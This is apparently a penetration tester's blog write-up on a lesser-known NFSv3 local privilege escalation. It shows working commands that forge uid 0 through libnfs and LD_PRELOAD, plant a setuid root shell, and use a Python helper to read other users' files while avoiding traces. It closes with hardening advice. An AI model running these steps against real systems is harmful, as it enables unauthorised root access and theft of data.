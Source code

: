 A tale of a lesser known NFS privesc
====================================

[There](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) [are](https://www.securitynewspaper.com/2018/04/25/use-weak-nfs-permissions-escalate-linux-privileges/) [countless](https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/) [online](https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/) [examples](https://resources.infosecinstitute.com/exploiting-nfs-share/) [of](https://touhidshaikh.com/blog/?p=788) [privilege](https://chryzsh.gitbooks.io/pentestbook/privilege_escalation_-_linux.html) [escalation](https://fullyautolinux.blogspot.com/2015/11/nfs-norootsquash-and-suid-basic-nfs.html) abusing bad NFS configuration.

However they all rely on the same prerequisite: that you are able to mount the share from somewhere else.


The NFS options
---------------

Server export options (found in the `/etc/exports` file):

* `secure`/`insecure`: in secure mode, forces the client to communicate using a port below 1024, hence proving they are root
* `root_squash`/`no_root_squash`: `root_squash` is the **secure default**. It replaces the root user with nfsnobody. This prevents setuid attacks, such as those presented below. The opposite option `no_root_squash` has the share behave like a traditional filesystem
* filtering: only let identified IP addresses mount the shares

Client mount options (found in the `/etc/fstab` file):

* `noexec`: forbids execution from the mountpoint
* `nosuid`: forbids setuid permission on binaries on the mountpoint


The classic remote attack
-------------------------

To briefly sum up what the attacks presented in the previous links do:

* mount the share from another machine where you're root
* place a setuid binary there
* on the victim machine, run the binary and get root

This attack requires two things:

* that the server is running `no_root_squash`
* that there are no network/application restrictions that prevents the attacker from mounting the share on his own computer.

The latter can be verified by listing the shares available on the remote server:
```
[root@pentest] showmount -e nfs-server
Export list for nfs-server:
/nfs_root   (everyone)
```


The local attack
----------------

Now, let's assume that the share server still runs `no_root_squash` but there is something preventing us from mounting the share on our pentest machine. This would happen if the `/etc/exports` has an explicit list of IP addresses allowed to mount the share.

Listing the shares now shows that only the machine we're trying to privesc on is allowed to mount it:
```
[root@pentest]# showmount -e nfs-server
Export list for nfs-server:
/nfs_root   machine
```

This means that we're stuck exploiting the mounted share on the machine locally from an unprivileged user. But it just so happens that there is another, lesser known local exploit.

This exploit relies on a problem in the NFSv3 specification that mandates that it's up to the client to advertise its uid/gid when accessing the share. Thus it's possible to fake the uid/gid by forging the NFS RPC calls if the share is already mounted!

Here's a [library that lets you do just that](https://github.com/sahlberg/libnfs).

### Compiling the example
Depending on your kernel, you might need to adapt the example. In my case I had to comment out the fallocate syscalls.

```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```

### Exploiting using the library
Let's use the simplest of exploits:
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

Place our exploit on the share and make it suid root by faking our uid in the RPC calls:
```bash
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

All that's left is to launch it:
```bash
[w3user@machine libnfs]$ /mnt/share/a.out
[root@machine libnfs]#
```

There we are, local root privilege escalation!

Kudos to [lnv42](https://github.com/lnv42/) for showing me this cool trick.


Bonus NFShell
-------------
Once local root on the machine, I wanted to loot the NFS share for possible secrets that would let me pivot. But there were many users of the share all with their own uids that I couldn't read despite being root because of the uid mismatch. I didn't want to leave obvious traces such as a chown -R, so I rolled a little snippet to set my uid prior to running the desired shell command:
```python
#!/usr/bin/env python
import sys
import os

def get_file_uid(filepath):
    try:
        uid = os.stat(filepath).st_uid
    except OSError as e:
        return get_file_uid(os.path.dirname(filepath))
    return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```

You can then run most commands as you normally would by prefixing them with the script:
```
[root@machine .tmp]# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
[root@machine .tmp]# ls -la ./mount/9.3_old/
ls: cannot open directory ./mount/9.3_old/: Permission denied
[root@machine .tmp]# ./nfsh.py ls --color -l ./mount/9.3_old/
drwxr-x---  2 1008 1009 1024 Apr  5  2017 bin
drwxr-x---  4 1008 1009 1024 Apr  5  2017 conf
drwx------ 15 1008 1009 1024 Apr  5  2017 data
drwxr-x---  2 1008 1009 1024 Apr  5  2017 install
```


Takeaways
---------

Don't use NFSv3.

If you **HAVE** to use NFSv3:

* Don't use `no_root_squash` serverside
* Use `noexec` and `nosuid` clientside
